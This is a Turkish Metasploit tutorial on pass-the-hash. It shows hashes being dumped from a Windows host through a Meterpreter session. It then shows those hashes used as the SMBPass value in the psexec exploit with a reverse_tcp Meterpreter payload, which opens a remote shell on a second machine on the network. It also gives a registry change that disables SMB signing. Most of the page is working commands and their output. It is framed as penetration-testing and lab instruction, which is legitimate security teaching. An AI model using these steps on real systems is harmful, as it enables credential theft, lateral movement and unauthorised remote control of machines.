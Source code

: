 ```yaml
---
draft: false
title: MSF PSexec Pass the Hash
weight: 230
linkTitle: PSexec Pass the Hash
translationKey: MSF_PSexec_Pass_the_Hash
date: 2017-05-25T13:17:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: psexec modülü, bulduğunuz hash değerini parola olarak kullanmanıza olanak sağlar.
url: /tr/msf-pseexec-pass-the-hash/
featured_image: /images/metasploit.jpg
categories:
   - Metasploit Framework
tags:
   - cybersecurity
   - metasploit framework
---
```

psexec modülü, genellikle pentest işlemleri esnasında kullanılır. Bu modül sayesine hedef sisteme giriş yapmanız mümkün hale gelmektedir. Alışılmış kullanımda, sistemin kullanıcı adı ve parolasını elde ettiğiniz ve bunu exploit modülüne değişken olarak girmeniz yeterlidir.

Normalde izlenen yol, sistemde meterpreter shell açıldığında `fgdump`, `pwdump` veya `cachedump` komutlarıyla parola elde etmektir. Bu aramalar esnasında bulduğunuz `hash` değerleri olursa, bunları çeşitli araçlar kullanarak çözmeye ve parolaların açık halini elde etmeye çalışırız.

Oysa bazen başka bir durumla karşı karşı kalabilirsiniz. Bir sistemde `Administrator` yetkili bir oturum açtınız ve kullanıcının `hash` olarak formatlı parolasını elde ettiniz. Bu oturum açtığınız sistem üzerinden aynı ağda bulunan başka bir sisteme bağlanmak istediğinizde, `Administrator` kullanıcısının parolasını çözmenize gerek olmayabilir. Genellikle ağdaki cihazlar bu `hash` değerleri kulanarak haberleşirler. psexec modülü, bulduğunuz `hash` değerini parola olarak kullanmanıza olanak sağlar.

UYARI-1:

NTLM kullanan sistemde, bulacağınız `hash` değeri `******NOPASSWORD*******:8846f7eaee8fb117ad06bdd830b7586c` formatındaysa, baş taraftaki `******NOPASSWORD*******` kısmını 32 adet sıfır ile değiştirerek `psexec` içine değişken olarak girmeniz gerekir. Yani değer, `00000000000000000000000000000000:8846f7eaee8fb117ad06bdd830b7586c` şeklinde olmalıdır.

UYARI-2:

Lab ortamında, doğru hash değeri girdiğiniz halde `STATUS_ACCESS_DENIED (Command=117 WordCount=0)` hatası alıyorsanız, hedef Windows sisteminin Registry ayarlarında `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters` içerisinde `RequireSecuritySignature` değerini `0` olarak ayarlamalısınız.

## Hashdump

Aşağıda, bir exploit kullanılarak Meterpreter oturumu açılmıştır ve `post/windows/gather/hashdump` modülü ile sistemde hash değerleri bulunmak istenmektedir.

```bash
> Meterpreter session 1 opened (192.168.57.133:443 -> 192.168.57.131:1042)

meterpreter > run post/windows/gather/hashdump 

> Obtaining the boot key...
> Calculating the hboot key using SYSKEY 8528c78df7ff55040196a9b670f114b6...
> Obtaining the user list and keys...
> Decrypting user keys...
> Dumping password hashes...

Administrator:500:e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c:::
meterpreter >
```

Görüldüğü gibi, `RHOST: 192.168.57.131` IP adresinde bulunan Administrator kullanıcısına ait `e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c` değeri elde edilmiştir.

Şimdi bu hash değerini kullanarak `RHOST: 192.168.57.140` IP adresine oturum açmayı deneyelim. Tabii ki önceden yaptığınız taramada aynı ağda `192.168.57.140` IP adresinde ve `445` portunda `SMB` servisinin çalıştığını keşfettiğinizi kabul ediyoruz.

## psexec

Önce `msfconsole` ile Metasploit Framework başlatalım ve `psexec` modülünü yükleyelim.

```bash
root@kali:~# msfconsole

                ##                          ###           ##    ##
 ##  ##  #### ###### ####  #####   #####    ##    ####        ######
####### ##  ##  ##  ##         ## ##  ##    ##   ##  ##   ###   ##
####### ######  ##  #####   ####  ##  ##    ##   ##  ##   ##    ##
## # ##     ##  ##  ##  ## ##      #####    ##   ##  ##   ##    ##
##   ##  #### ###   #####   #####     ##   ####   ####   #### ###
                                      ##
       [ metasploit v4.2.0-dev [core:4.2 api:1.0]
+ -- --[ 787 exploits - 425 auxiliary - 128 post
+ -- --[ 238 payloads - 27 encoders - 8 nops
       [ svn r14551 updated yesterday (2012.01.14)

msf > search psexec

Exploits
**========**

   Name                       Description
   ----                       -----------
   windows/smb/psexec         Microsoft Windows Authenticated User Code Execution
   windows/smb/smb_relay      Microsoft Windows SMB Relay Code Execution

msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(psexec) > set LHOST 192.168.57.133
LHOST => 192.168.57.133
msf exploit(psexec) > set LPORT 443
LPORT => 443
msf exploit(psexec) > set RHOST 192.168.57.140
RHOST => 192.168.57.140
msf exploit(psexec) > show options

Module options:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOST    192.168.57.140   yes       The target address
   RPORT    445              yes       Set the SMB service port
   SMBPass                   no        The password for the specified username
   SMBUser  Administrator    yes       The username to authenticate as
Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique: seh, thread, process
   LHOST     192.168.57.133   yes       The local address
   LPORT     443              yes       The local port
Exploit target:

   Id  Name
   --  ----
   0   Automatic
   ```

## SMBPass

Yukarıda görüldüğü gibi `exploit/windows/smb/psexec` modülünde `SMBPass` değişkenini girmemiz gerekmektedir. `SMBPass` değişkenine elimizde bulunan hash değerini girelim ve modülü `exploit` komutuyla çalıştıralım.

```bash
msf exploit(psexec) > set SMBPass e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c
SMBPass => e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c
msf exploit(psexec) > exploit

> Connecting to the server...
> Started reverse handler
> Authenticating as user 'Administrator'...
> Uploading payload...
> Created \KoVCxCjx.exe...
> Binding to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.57.140[\svcctl] ...
> Bound to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.57.140[\svcctl] ...
> Obtaining a service manager handle...
> Creating a new service (XKqtKinn - "MSSeYtOQydnRPWl")...
> Closing service handle...
> Opening service...
> Starting the service...
> Removing the service...
> Closing service handle...
> Deleting \KoVCxCjx.exe...
> Sending stage (719360 bytes)
> Meterpreter session 1 opened (192.168.57.133:443 -> 192.168.57.140:445)

meterpreter > shell
Process 3680 created.
Channel 1 created.
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\system32>
```

Gördüğünüz gibi `192.168.57.140` IP adresinde oturum açılmıştır.

